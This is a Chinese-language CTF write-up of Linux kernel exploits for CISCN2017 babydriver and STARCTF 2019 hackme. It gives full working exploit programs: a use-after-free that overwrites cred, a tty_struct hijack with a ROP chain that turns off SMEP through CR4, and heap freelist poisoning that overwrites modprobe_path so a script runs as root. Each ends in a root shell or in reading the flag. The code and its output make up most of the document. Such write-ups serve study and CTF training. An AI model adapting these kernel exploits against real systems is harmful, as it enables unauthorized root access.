

# UAF

## CISCN2017 - babydriver

IDA主要函数：

```c
int __fastcall babyrelease(inode *inode, file *filp)
{
  _fentry__(inode, filp);
  kfree(babydev_struct.device_buf);
  printk("device release\n");
  return 0;
}

int __fastcall babyopen(inode *inode, file *filp)
{
  _fentry__(inode, filp);
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(kmalloc_caches[6], 0x24000C0LL, 64LL);// 分配0x40的一块内存
  babydev_struct.device_buf_len = 64LL;
  printk("device open\n");
  return 0;
}

// local variable allocation has failed, the output may be wrong!
__int64 __fastcall babyioctl(file *filp, unsigned int command, unsigned __int64 arg)
{
  size_t v3; // rdx
  size_t v4; // rbx
  __int64 result; // rax

  _fentry__(filp, *(_QWORD *)&command);
  v4 = v3;                                      // 设置0x10001命令可以重新设置struct中的buf大小
  if ( command == 0x10001 )
  {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)_kmalloc(v4, 0x24000C0LL);
    babydev_struct.device_buf_len = v4;
    printk("alloc done\n");
    result = 0LL;
  }
  else
  {
    printk(&unk_2EB);
    result = -22LL;
  }
  return result;
}
```

+ open时创建初始buf大小0x40
+ ioctl函数仅有一种命令，就是对device_buf进行realloc
+ close时调用babyrelease释放device_buf

系统仅开启`smep`，比较简单

### 思路 --- UAF

> 一定不要局限于libc漏洞利用，这里是kernel！fork~内核一份程序多份

虽然没有溢出这样的漏洞，但是可以两次打开这个设备：

```c
int fd1 = open("/dev/babydev", O_RDWR);
int fd2 = open("/dev/babydev", O_RDWR);
```

全局变量`babydev_struct`会被第二次覆盖，但是有两个指针指向一个`LKM`



先释放fd1空出一个free object，***只要提前把这个object realloc为某些特殊结构体的大小，那么如果后面这些结构体会通过slab获取内存块我们就会有一个悬空指针指向这个结构体，从而可以修改***

我们的cred struct就是的，查到该版本的结构体大小然后构造：

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <assert.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/wait.h>

void rekmalloc(int fd, size_t size){
    ioctl(fd, (unsigned long)0x10001, size);
}
/*
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
*/

int main(){
    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);

    ioctl(fd1, 0x10001, 0xa8);
    close(fd1);

    int pid = fork();
    assert(pid >= 0);

    if(pid == 0){
        char buf[30] = {0};		
        write(fd2, buf, 28);

        if(getuid() == 0){
            puts("[*] get root!");
            system("/bin/sh");
        }
    }
    else
        wait(NULL);
    close(fd2); 

    return 1;
}
```

+ 把uid，gid改为0
+ 先释放fd1获得0xa8的object
+ 进行fork，将为新进程创建cred即使用上面释放的object
+ 悬空指针进行写操作，篡改uid，gid


### 思路 --- Rop With TTY_struct

上面的 方法泰国简单粗暴，介绍一个高级点的：`tty_struct`：

```c
struct tty_struct {
    int magic;
    struct kref kref;
    struct device *dev;
    struct tty_driver *driver;
    const struct tty_operations *ops;
    int index;
    /* Protects ldisc changes: Lock tty not pty */
    struct ld_semaphore ldisc_sem;
    struct tty_ldisc *ldisc;
    struct mutex atomic_write_lock;
    struct mutex legacy_mutex;
    struct mutex throttle_mutex;
    struct rw_semaphore termios_rwsem;
    struct mutex winsize_mutex;
    spinlock_t ctrl_lock;
    spinlock_t flow_lock;
    /* Termios values are protected by the termios rwsem */
    struct ktermios termios, termios_locked;
    struct termiox *termiox;    /* May be NULL for unsupported */
    char name[64];
    struct pid *pgrp;       /* Protected by ctrl lock */
    struct pid *session;
    unsigned long flags;
    int count;
    struct winsize winsize;     /* winsize_mutex */
    unsigned long stopped:1,    /* flow_lock */
              flow_stopped:1,
              unused:BITS_PER_LONG - 2;
    int hw_stopped;
    unsigned long ctrl_status:8,    /* ctrl_lock */
              packet:1,
              unused_ctrl:BITS_PER_LONG - 9;
    unsigned int receive_room;  /* Bytes free for queue */
    int flow_change;
    struct tty_struct *link;
    struct fasync_struct *fasync;
    wait_queue_head_t write_wait;
    wait_queue_head_t read_wait;
    struct work_struct hangup_work;
    void *disc_data;
    void *driver_data;
    spinlock_t files_lock;      /* protects tty_files list */
    struct list_head tty_files;
#define N_TTY_BUF_SIZE 4096
    int closing;
    unsigned char *write_buf;
    int write_cnt;
    /* If the tty has a pending do_SAK, queue it here - akpm */
    struct work_struct SAK_work;
    struct tty_port *port;
} __randomize_layout;
```


`tty`是由虚拟控制台，串口以及伪终端设备组成的**终端设备**，通过`/dev/ptmx`来打开这个设备，并且会获得`tty_struct`结构体其中包含这样一个结构体` const struct tty_operations *ops`存放各种对操作函数指针：

```c
struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
            struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
            unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
                struct serial_icounter_struct *icount);
    void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(struct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    int (*proc_show)(struct seq_file *, void *);
} __randomize_layout;
```

`tty_struct`申请用于存放该结构体的内存块(**大小0x2e0**)是通过`slub`分配器分配的，所以控制起来就比较方便了.很像libc中的`house_of_orange`

控制这块内存劫持`tty_operations` 中的(一般`int (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);`)函数后如果对驱动操作触发hook，出现一个很有意思的情况：以下为劫持某个函数，触发后到`xchg`指令

```assembly
RAX: 0xffffffff81007808 --> 0x8b48a8458b48c394 
RBX: 0xffff880000a68000 --> 0x100005401 
RCX: 0x6cdf20 --> 0xffffffffc0000030 --> 0x8b48550000441f0f 
RDX: 0x0 
RSI: 0x0 
RDI: 0xffff880000a68000 --> 0x100005401 
RBP: 0xffff880002bcfe98 --> 0xffff880002bcff08 --> 0xffff880002bcff48 --> 0x7ffec7d09b50 --> 0x6cb018 --> 0x424430 (--> ...)
RSP: 0xffff880002bcfde8 --> 0xffffffff814d8aef --> 0xda850ffffffdfd3d 
RIP: 0xffffffff81007808 --> 0x8b48a8458b48c394 
R8 : 0x6cd760 --> 0x0 
R9 : 0xb59880 (0x0000000000b59880)
R10: 0x58 ('X')
R11: 0x246 
R12: 0x0 
R13: 0x0 
R14: 0xffff880000a32600 --> 0x0 
R15: 0xffff880000a68800 --> 0x100005401
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffffff81007808:	xchg   esp,eax
   0xffffffff81007809:	ret    
```

可以发现执行该**hook**后`rax`刚好为当前指令地址，配合一个合适地址`xchg   esp,eax`指令，就可以实现**栈迁移**。栈都是0x8对其，所以不能随意。因为仅开启了`smep`保护，我们可以在用户态提前布置`rop_mmap`：

```c
unsigned long *fake_stack = mmap((void *)(stackbase), 0x2000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, 0, 0);
if(!fake_stack){
    puts("[!] mmap failed!");
    exit(-1);
}else
    printf("[+] mmap succeed at %p\n", fake_stack);

unsigned off = ((XchgRet & 0xfff) - ((unsigned long)fake_stack & 0xfff)) / 8;
fake_stack[off++] = PopRdiRet;
fake_stack[off++] = 0x6f0;  
fake_stack[off++] = MvCr4RdiRet;
fake_stack[off++] = 0xdeadbeef;         //pop rbp
fake_stack[off++] = (unsigned long)priviledge_escalation;
fake_stack[off++] = SwapGsRet;
fake_stack[off++] = 0xdeadbeef;
fake_stack[off++] = Iret;
fake_stack[off++] = usr_rip;
fake_stack[off++] = usr_cs;
fake_stack[off++] = usr_rflags;
fake_stack[off++] = usr_rsp;
fake_stack[off++] = usr_ss;
```

因为该内核版本较低(2017)没有`Pin sensitive CR4 bits`机制所以我们可以直接rop修改，或调用native_write_cr4进行修改，然后返回用户态的提权函数。

有个小问题就是**不能在用户态的提权函数中布置中断返回栈**，经尝试用户态进行进行第二次push到内核栈就会panic：

```c
// #ifndef CR4
// #define CR4
// #endif
#define DEBUG

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <assert.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/mman.h>


#define OPS_SIZE 0x2e0

unsigned long usr_ss, usr_rsp, usr_cs, usr_rflags;
void save_state(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov usr_ss, ss;"
        "mov usr_rsp, rsp;"
        "mov usr_cs, cs;"
        "pushf;"
        "pop usr_rflags;"
        ".att_syntax;"
    );

    puts("[+] state saved");
}

void get_shell(){
    puts("[*] Return to usrland");
    if(getuid() == 0){
        printf("[+] UID: %d get root!\n", getuid());
        system("/bin/sh");
    }else
       printf("[!] UID: %d failed!\n", getuid()); 

    exit(-1);
}

void rekmalloc(int fd, size_t size){
    ioctl(fd, (unsigned long)0x10001, size);
}

unsigned long prepare_kernel_cred = 0xffffffff810a1810;
unsigned long commit_creds = 0xffffffff810a1420;
unsigned long usr_rip = (unsigned long)get_shell;
void priviledge_escalation(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;"
        "xor rdi, rdi;"
        "call rax;"         //prepare_kernel_cred(0)
        "mov rdi, rax;"
        "mov rax, commit_creds;"
        "call rax;"
#ifdef  CR4
        "mov r15, usr_ss;"
        "push r15;"
        "mov r15, usr_rsp;"				//<==== panic
        "push r15;"
        "mov r15, usr_rflags;"
        "push r15;"
        "mov r15, usr_cs;"
        "push r15;"
        "mov r15, usr_rip;"
        "push r15;"
        "swapgs;"
        "iret;"
#endif
        ".att_syntax;"
    );
}

unsigned long tty_struct[4];        //reach to ops_struct *
unsigned long ops_struct[13];       //reach to ioctl 
unsigned long XchgRet = 0xffffffff81007808;    //xchg eax, esp ; ret        0x81a58000  
unsigned long PopRdiRet = 0xffffffff810d238d;
unsigned long MvCr4RdiRet = 0xffffffff81004d80;     //mov cr4, rdi ; pop rbp ; ret
unsigned long SwapGsRet = 0xffffffff81063694;       //swapgs ; pop rbp ; ret
unsigned long Iret = 0xffffffff8181a797;
int main(int argc, char const *argv[])
{   
    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    save_state();

    rekmalloc(fd1, OPS_SIZE);
    close(fd1);

    int fd = open("/dev/ptmx", O_RDWR);
    
    for(int i=0; i < 12; i++){
        ops_struct[i] = 0xffffffffc0000030;         //babyopen
    }
    unsigned long stackbase = (XchgRet&~0xfff) & 0xffffffff;
    unsigned long *fake_stack = mmap((void *)(stackbase), 0x2000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, 0, 0);
    if(!fake_stack){
        puts("[!] mmap failed!");
        exit(-1);
    }else
        printf("[+] mmap succeed at %p\n", fake_stack);
    
    unsigned off = ((XchgRet & 0xfff) - ((unsigned long)fake_stack & 0xfff)) / 8;
#ifdef CR4
    unsigned long MvRaxRc4Ret = 0xffffffff81004c14;     //mov rax, cr4 ; pop rbp ; ret
    unsigned long AndRaxRsiRet = 0xffffffff815df7f6;    //and rax, rsi ; pop rbp ; ret
    unsigned long PopRsiRet = 0xffffffff811dd9ae;       //pop rsi ; ret
    unsigned long XorEsiEsiRet = 0xffffffff8106a5cb;
    unsigned long MvRdiRaxRet = 0xffffffff810f1a8a;     //mov rdi, rax ; jne 0xffffffff810f1a72 ; pop rbp ; ret
    unsigned long native_write_cr4 = 0xffffffff810635b0;
    fake_stack[off++] = MvRaxRc4Ret;
    fake_stack[off++] = 0xdeadbeef;
    fake_stack[off++] = PopRsiRet;
    fake_stack[off++] = 0xffffffff & ~0x100000;
    fake_stack[off++] = AndRaxRsiRet;
    fake_stack[off++] = 0xdeadbeef;
    fake_stack[off++] = XorEsiEsiRet;
    fake_stack[off++] = MvRdiRaxRet;
    fake_stack[off++] = 0xdeadbeef;
    fake_stack[off++] = native_write_cr4;                   //turned off smep
    fake_stack[off++] = (unsigned long)priviledge_escalation;
#else
    fake_stack[off++] = PopRdiRet;
    fake_stack[off++] = 0x6f0;  
    fake_stack[off++] = MvCr4RdiRet;
    fake_stack[off++] = 0xdeadbeef;         //pop rbp
    fake_stack[off++] = (unsigned long)priviledge_escalation;
    fake_stack[off++] = SwapGsRet;
    fake_stack[off++] = 0xdeadbeef;
    fake_stack[off++] = Iret;
    fake_stack[off++] = usr_rip;
    fake_stack[off++] = usr_cs;
    fake_stack[off++] = usr_rflags;
    fake_stack[off++] = usr_rsp;
    fake_stack[off++] = usr_ss;
#endif
    ops_struct[12] = XchgRet;
    read(fd2, tty_struct, 0x20);
    printf("[*] tty_magic: 0x%X\n", tty_struct[0]);
    tty_struct[3] = ops_struct;

    write(fd2, tty_struct, 0x20);
#ifdef DEBUG
    getc(stdin);
#endif
    ioctl(fd, 0, 0);

    return 0;
}
```


Result:

```bash
/ $ ./exploit 
[    3.811704] device open
[    3.812877] device open
[+] state saved
[    3.814963] alloc done
[    3.816246] device release
[+] mmap succeed at 0x81007000
[*] tty_magic: 0x5401
[*] Return to usrland
[+] UID: 0 get root!
/ # 
```


# HeapOverFlow

## STARCTF 2019 hackme 

希望内核堆利用不要变成`glibc heap` .这个题目主要通过ioctl函数搞出一个经典菜单题：

```c
  v3 = cmd;
  v4 = data;
  copy_from_user(&idx, data, 0x20LL);
  if ( v3 == 0x30001 )                          // delete
  {
    v15 = idx;
    v16 = maner[v15].Ptr;
    v17 = &maner[v15];
    if ( v16 )
    {
      kfree(v16, v4);
      v17->Ptr = 0LL;
      return 0LL;
    }
    return -1LL;
  }
  if ( v3 > 0x30001 )
  {
    if ( v3 == 0x30002 )                        // write
    {
      v9 = idx;
      v10 = (char *)maner[v9].Ptr;
      v11 = &maner[v9];
      if ( v10 && (unsigned __int64)(off + size) <= v11->Size )
      {
        copy_from_user(&v10[off], content_ptr, size);
        return 0LL;
      }
    }
    else if ( v3 == 0x30003 )                   // read
    {
      v5 = idx;
      v6 = (char *)maner[v5].Ptr;
      v7 = &maner[v5];
      if ( v6 )
      {
        if ( (unsigned __int64)(off + size) <= v7->Size )
        {
          copy_to_user(content_ptr, &v6[off], size);
          return 0LL;
        }
      }
    }
    return -1LL;
  }
  if ( v3 != 0x30000 )                          // exit
    return -1LL;
  v12 = size;
  v13 = content_ptr;
  v14 = &maner[idx];
  if ( v14->Ptr )
    return -1LL;
  v18 = _kmalloc(size, 0x6000C0LL);
  if ( !v18 )
    return -1LL;
  v14->Ptr = (void *)v18;
  copy_from_user(v18, v13, v12);
  v14->Size = v12;
  return 0LL;
```

+ 全局变量maner对于这个数组的存取缺少锁的操作，并且内核以多线程启动，很明显存在竞争类漏洞，如释放内存后立刻竞争读写堆块，造成`UAF`等
+ read和write功能都存在越界

本来想用释放一个cred大小的object然后fork劫持该结构体，但是fork为新进程创建cred结构体时使用：

```c
void __init cred_init(void)  
{  
    /* allocate a slab in which we can store credentials */  
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,  
            SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);  
}  
```

创建`cred_jar`这个新的kmem_cache从中获取内存，这和`kmallc-xxx`时分离的：

```bash
cred_jar              32     32    128   32    1 : tunables    0    0    0 : slabdata      1      1      0
....
kmalloc-8k             4      4   8192    4    8 : tunables    0    0    0 : slabdata      1      1      0
kmalloc-4k             8      8   4096    8    8 : tunables    0    0    0 : slabdata      1      1      0
kmalloc-2k            88     88   2048    8    4 : tunables    0    0    0 : slabdata     11     11      0
kmalloc-1k            40     40   1024    8    2 : tunables    0    0    0 : slabdata      5      5      0
kmalloc-512          696    696    512    8    1 : tunables    0    0    0 : slabdata     87     87      0
kmalloc-256           32     32    256   16    1 : tunables    0    0    0 : slabdata      2      2      0
kmalloc-192          777    777    192   21    1 : tunables    0    0    0 : slabdata     37     37      0
kmalloc-128          128    128    128   32    1 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-96           210    210     96   42    1 : tunables    0    0    0 : slabdata      5      5      0
kmalloc-64           256    256     64   64    1 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-32           255    256     32  128    1 : tunables    0    0    0 : slabdata      2      2      0
kmalloc-16           512    512     16  256    1 : tunables    0    0    0 : slabdata      2      2      0
kmalloc-8           3072   3072      8  512    1 : tunables    0    0    0 : slabdata      6      6      0
```

> 但在2017那个babdydive 使用这个方法随便提权~~~不知道为啥


### 思路 --- Rop With tty_struct

这种方法确实会比较麻烦，但是也挺适用的只是这里只有`任意写`漏洞，开启`smap`无法获取rop的空间。所以跳转到ops结构体中的hook函数后虽然rax就是我们的指令地址(xchg eax, esp)，但是这个地址的底四位作为栈且可行几乎是不可能的所以是一定需要用户要提前开辟rop空间，或者有什么触发什么内核机制---未知

所以这里不可行。


### 思路 --- Overwriting modprobe_path

`modprobe_path`是当加载或移除某个`LKM`使用的，每当我们安装或移除模块就会执行这个程序。他的路径由全局变量记录，默认为值：`/sbin/modprobe`由`modprobe_path`记录可读可写，`/proc/kallsyms`可以读取该变量的地址：

```c
/home/pwn # cat /proc/kallsyms | grep modprobe_path
ffffffff96c3f960 D modprobe_path
```

虽然这个题目开启了`Kaslr`但是不是`FG-Kaslr`。所以这些符号的地址可以轻松泄露


**然后就是每当系统执行一个非正确格式的程序时，这个`modprobe_path`指向的程序就会被执行**，因此提前向这里写入一个shell脚本路径那么出错时这个shell脚本就会被**以root身份执行**


```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

#define     ADD     0x30000UL
#define     DELETE  0x30001UL
#define     WRITE   0x30002UL
#define     READ    0x30003UL
#define     EXIT    0x30004UL

typedef struct {
    unsigned int idx;
    unsigned int padding;
    char *src;
    int64_t size;
    int64_t off;
}Data;

unsigned long kernelbase;
unsigned long mod_tree;
unsigned long hackme;
unsigned long maner;
unsigned long rop_space = 0xf6000000;
unsigned long sym_prepare_cred;
unsigned long sym_commit_cred;
unsigned long kpti_trampoline;

void fail(char *msg){
    printf("\033[31m[!] %s\033[0m\n", msg);
}

int global;
void open_dev(){
    global = open("/dev/hackme", O_RDWR);
    if(global < 0){
        fail("open_dev failed!");
        printf("global: 0x%d\n", global);
        exit(-1);
    }
    puts("[*] open dev");
}

unsigned long usr_cs, usr_rflags, usr_rsp, usr_ss;
void save_state(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov usr_cs, cs;"
        "mov usr_rsp, rsp;"
        "mov usr_ss, ss;"
        "pushf;"
        "pop usr_rflags;"
        ".att_syntax;"
    );
}

void add(unsigned int idx, char *src, size_t size){
    Data data;
    bzero(&data, sizeof(Data));
    data.idx = idx;
    data.src = src;
    data.size = size;
    data.off = 0UL;
    data.padding = 0U;
    
    if(ioctl(global, ADD, &data) < 0){
        fail("Add failed!");
        exit(-1);
    }
    
    printf("[*] Add chunk at idx_%u\n", idx);
}

void delete(unsigned int idx){
    Data data;
    bzero(&data, sizeof(Data));
    data.idx = idx;

    if(ioctl(global, DELETE, &data) < 0){
        fail("Delete failed!");
        exit(-1);
    }

    printf("[*] Delete chunk at idx_%u\n", idx);
}

void Write(unsigned int idx, char *src, size_t off, size_t size){
    Data data;
    bzero(&data, sizeof(Data));
    data.idx = idx;
    data.src = src;
    data.size = size;
    data.off = off;

    if(ioctl(global, WRITE, &data) < 0){
        fail("Write failed!");
        exit(-1);
    }

    printf("[*] Write into chunk at idx_%u\n", idx);
}

void Read(unsigned int idx, char *dest, size_t off, size_t size){
    Data data;
    bzero(&data, sizeof(Data));
    data.idx = idx;
    data.src = dest;
    data.size = size;
    data.off = off;

    if(ioctl(global, READ, &data) < 0){
        fail("Read failed!");
        exit(-1);
    }

    printf("[*] Read from chunk at idx_%u\n", idx);
}

void Debug(char *sym){
    if(getuid() != 0){
        printf("pid: %d\n", getuid());
        fail("Debug need root!");
        
        exit(-1);
    }
    else{
        char str[100] = "cat /proc/kallsyms | grep -m3 ";
        char *cmd = strcat(str, sym);
        FILE *fp = popen(cmd, "r");
        char buf[0x100] = {0};
        char addr[100] = {0};
        char sym_name[100] = {0};

        while(fgets(buf, 0x100, fp)){
            char *str = strtok(buf, "\n");
            sscanf(str, "%[0-9a-z]%*[ a-zA-Z ]%[^\n]", addr, sym_name);
            printf("[D] %s: %s\n", sym_name, addr);
            bzero(addr, 100);
            bzero(sym_name, 100);
            while(str = strtok(NULL, "\n")){
                sscanf(str, "%[0-9a-z]%*[ a-zA-Z ]%[^\n]", addr, sym_name);
                printf("[D] %s: %s\n", sym_name, addr);
                bzero(addr, 100);
                bzero(sym_name, 100);
            }
        }
    }
}

unsigned long tmp_store;
unsigned long prepare_cred;
void leak_prepare_cred(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    prepare_cred = tmp_store + (int)sym_prepare_cred;
    printf("[+] prepare_cred: 0x%lX\n", prepare_cred);
}

unsigned long Read4Bytes;           //mov eax, dword ptr [rax] ; ret
unsigned long PopRaxRet;
void stage_1(){
    Debug("__ksymtab_commit_creds");
    Debug("swapgs_restore_regs_and_return_to_usermode");
    Read4Bytes = kernelbase + 0x17e87;
    PopRaxRet = kernelbase + 0x1b5a1;
    sym_prepare_cred = kernelbase + 0x6c9c40;
    sym_commit_cred = kernelbase + 0x6c7d58;
    kpti_trampoline = kernelbase + 0x20092e + 22;

    printf("[+] __ksymtab_commit_creds: 0x%lX\n", sym_commit_cred);
    printf("[+] swapgs_restore_regs_and_return_to_usermode: 0x%lX\n", kpti_trampoline);

    unsigned long buf[0x100] = {0};
    buf[0] = rop_space;          //idx_1
    buf[1] = 0xdeadbeef;
    // read(0, &buf[0x50], 1);
    char *mm = mmap((void *)0xf6000000, 0x1000, PROT_EXEC|PROT_WRITE|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED|MAP_FIXED, 0, 0);
    *mm = 'a';
    
    read(0, mm, 0x10);
    Write(0, (char *)buf, 0x10, 0x10);
    munmap(mm, 0x1000);
    read(0, mm, 0x10);

    buf[0] = PopRaxRet;
    buf[1] = sym_prepare_cred;
    buf[2] = Read4Bytes;
    buf[3] = kpti_trampoline;
    buf[4] = 0x0;
    buf[5] = 0x0;
    buf[6] = (unsigned long)leak_prepare_cred;
    buf[7] = usr_cs;
    buf[8] = usr_rflags;
    buf[9] = usr_rsp;
    buf[10] = usr_ss;

}

/*
1.object.fd -> 0xf6000000
2.get object at 0xf6000000
3.read Rop chain in
4.tty_stuct hijack to `mov esp, 0xf6000000 ; ret`
*/

unsigned long modprobe_path;
int main(){
    open_dev();
    save_state();

    char buffer[0x1000] = {0};

    // Debug("_text");
    // Debug("mod_tree");
    // Debug("hackme");

    add(0, buffer, 0x200);
    add(1, buffer, 0x200);
    add(2, buffer, 0x200);              //<====
    add(3, buffer, 0x200);
    add(4, buffer, 0x200);
    add(5, buffer, 0x200);
    // read(0, buffer, 1);
    Read(0, buffer, -0x200, 0x200);
    
    kernelbase = *(unsigned long *)(&buffer[0x190]) - 0x196600;
    mod_tree = kernelbase + 0x811000;
    bzero(buffer, 0x200);
    printf("[+] _text: 0x%lX\n", kernelbase);
    printf("[+] mod_tree: 0x%lX\n", mod_tree);

    modprobe_path = kernelbase + 0x83f960;

    delete(2);
    *(unsigned long *)&buffer[0] = mod_tree + 0x30;
    Write(3, buffer, -0x200, 0x200);
    // read(0, buffer, 1);
    add(2, buffer, 0x200);
    add(6, buffer, 0x200);
    
    Read(6, buffer, -0x18, 0x18);
    hackme = *(unsigned long *)buffer;
    maner = hackme + 0x2400;
    printf("[+] hackme: 0x%lX\n", hackme);

    delete(4);
    bzero(buffer, 0x200);
    *(unsigned long *)&buffer[0] = maner;
    Write(5, buffer, -0x200, 0x200);
    add(4, buffer, 0x200);
    *(unsigned long *)&buffer[8] = 0xdeadbeef;
    // read(0, buffer, 1);
    add(7, buffer, 0x200);                  //maner contral
    bzero(buffer, 0x100);

    *(unsigned long *)&buffer[0] = modprobe_path;
    *(unsigned long *)&buffer[8] = 0xdeadbeef;
    Write(0, buffer, 0x10, 0x10);

    strncpy(buffer,"/home/pwn/copy.sh\x00",18);
    Write(1, buffer, 0, 18);

    system("echo -ne '#!/bin/sh\n/bin/cp /flag /home/pwn/flag\n/bin/chmod 777 /home/pwn/flag\n' > /home/pwn/copy.sh");
    system("chmod +x /home/pwn/copy.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/pwn/dummy");
    system("chmod +x /home/pwn/dummy");

    system("/home/pwn/dummy");
    system("cat flag");

    read(0, buffer, 1);
    return 0;
}
```

Resu：

```bash
/home/pwn/dummy: line 1: ����: not found
*CTF{userf4ult_fd_m4kes_d0uble_f3tch_perfect}
```

